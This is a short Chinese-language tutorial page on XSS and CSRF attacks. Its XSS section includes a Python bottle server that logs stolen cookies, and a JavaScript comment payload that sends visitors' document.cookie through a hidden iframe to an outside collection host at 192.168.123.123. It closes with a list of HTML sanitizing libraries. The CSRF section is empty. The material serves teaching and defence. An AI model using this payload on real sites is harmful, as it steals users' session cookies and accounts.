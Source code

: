 #  XSS 与 CSRF 两种跨站攻击

- XSS：跨站脚本（Cross-site scripting）

- CSRF：跨站请求伪造（Cross-site request forgery）

## XSS

>XSS 全称“跨站脚本”，是注入攻击的一种。其特点是不对服务器端造成任何伤害，而是通过一些正常的站内交互途径，  
例如发布评论，提交含有 JavaScript 的内容文本。  
这时服务器端如果没有过滤或转义掉这些脚本，作为内容发布到了页面上，其他用户访问这个页面的时候就会运行这些脚本。 

- 也可以是盗号或者其他未授权的操作——我们来模拟一下这个过程，先建立一个用来收集信息的服务器：
```
#!/usr/bin/env python
#-*- coding:utf-8 -*-

"""
跨站脚本注入的信息收集服务器
"""

import bottle

app = bottle.Bottle()
plugin = bottle.ext.sqlite.Plugin(dbfile='/var/db/myxss.sqlite')
app.install(plugin)

@app.route('/myxss/')
def show(cookies, db):
    SQL = 'INSERT INTO "myxss" ("cookies") VALUES (?)'
    try:
        db.execute(SQL, cookies)
    except:
        pass
    return ""

if __name__ == "__main__":
    app.run()
```
- 在某一个页面的评论中注入这段代码：

// 用 <script type="text/javascript"></script> 包起来放在评论中
```
(function(window, document) {
    // 构造泄露信息用的 URL
    var cookies = document.cookie;
    var xssURIBase = "http://192.168.123.123/myxss/";
    var xssURI = xssURIBase + window.encodeURI(cookies);
    // 建立隐藏 iframe 用于通讯
    var hideFrame = document.createElement("iframe");
    hideFrame.height = 0;
    hideFrame.width = 0;
    hideFrame.style.display = "none";
    hideFrame.src = xssURI;
    // 开工
    document.body.appendChild(hideFrame);
})(window, document);
```
于是每个访问到含有该评论的页面的用户都会遇到麻烦——他们不知道背后正悄悄的发起了一个请求，是他们所看不到的。

而这个请求，会把包含了他们的帐号和其他隐私的信息发送到收集服务器上。

- 这里附上一些“白名单”消毒 HTML 标签和属性（Sanitize HTML）的开源解决方案
- Python: [lxml.html.clean](http://lxml.de/lxmlhtml.html#cleaning-up-html) / [bleach](https://github.com/jsocol/bleach)
- Ruby: [Sanitize](https://github.com/rgrove/sanitize/)
- JavaScript: [sanitize-html](https://github.com/punkave/sanitize-html)
- PHP: [htmlpurifier](http://htmlpurifier.org/)

## CSRF

>

## 参考资料
- https://blog.tonyseek.com/post/introduce-to-xss-and-csrf/
